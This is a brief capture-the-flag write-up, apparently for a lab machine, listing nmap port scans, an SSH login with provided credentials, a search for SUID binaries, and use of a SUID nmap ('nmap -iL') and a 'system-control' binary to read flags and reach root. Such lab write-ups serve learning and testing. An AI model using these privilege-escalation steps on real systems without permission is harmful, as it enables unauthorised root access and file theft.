








## **Enumeration**
>	- Using default scan with `-p-` to scan all ports on the machine `nmap -p- 10.10.62.217`.
>	- Scanning further on the port `65534` for service version using `nmap -sV -p 65534 10.10.62.217`.
>	- Accessing the machine using the provided credentials using `ssh holly@10.10.62.217 -p 65534`.

## **Privilege Escalation**
>	- Using `find / -perm -u=s -type f 2>/dev/null` to find all files that contains `SUID` bit set. 
>	- Using `GTFObins` to check for `File Read` using one of these binaries.
>	- Using `nmap -iL ../igor/flag1.txt` to view the flag.
>	- Using `find / -user root -perm -4000 -exec ls {} \; 2>/dev/null` to find the files that the `root` user has *read* permissions on and execute `ls`.
>	- Using `GTFObins` to check for `Sudo` using one of these binaries.
>	- Using `system-control` and then using `su`.